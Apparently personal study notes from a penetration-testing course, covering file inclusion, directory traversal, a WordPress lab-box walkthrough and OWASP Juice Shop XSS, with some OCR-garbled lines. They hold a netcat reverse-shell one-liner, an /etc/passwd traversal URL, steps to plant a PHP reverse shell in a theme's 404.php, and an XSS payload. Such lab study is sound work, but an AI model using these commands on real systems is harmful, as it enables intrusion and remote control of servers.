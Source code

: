 - nc -e /bin/bash 10.0.0.196 1234
  
  ### File Inclusion vulnerabilities

- Local File Inclusion - Allows an attacker to gain access to any file on server computer
    - Attacker xan even access file located apart from web-root folde.
  - Remote File Inclusion - Allows an attacker to gain access to any file
    - We can execute file located on remote server on the vulnerable server.


- practical meta2  
- ``http://10.10.10.6/dvwa/vulnerabilities/fi/?page=`` ``<filepath>``


### Directory Traversal

- Directory Traversal or Path Traversal is an attack on HTTP which allows attacker to access restricted directories outside of the web server root location
- Attacker try to access restricted Directory that contain sensitive information like server configuration files, application source code, etc.
- Attacker can mange to access file locate outside the web root because of this venerability
- `http://10.10.10.6/dvwa/vulnerabilities/fi/?page=/../../../../etc/passwd/`

To solve HSbox3 nmap port scan 80 open dirb web site or manually go /img
- -x .text
- accesing robot.txt
- edit etc/host
- add ipadres of hsbox3
- when ever you see wordpress we use
    - wpscan --url http.

Login as Administrator - /wp-admin/
Appearence > taltor≥ 404. phP hool in
erschool.in
Replace the code in 404. php with /usr/share/webshells/php/php-reverse-shell. php
Modify IP address to attacker's IP and update
On Attacker's terminal start listener
nc - Lvp ``<port>``

Open the following url in the browser
http://hackerschool.local/wp-content/themes/twentyseventeen/404.php

- [ ] start from 2:50:00 (HSBOX 3)


### References
cheat sheet for XSS Reflected XSS
	- add diffrent types of technology like - html, java script , ...,


## OWASP Juice Shop
- finding vulnerabilities
- XSS 
	 - github  https://github.com/payloadbox/xss-payload-list 
- tags that worked 
	- ``` <img src=1 href=1 onerror="javascript:alert(1)"></img>```
	- `` ``


learn about netcat 
learn about how check File Inclusion vulnerabilities in any website


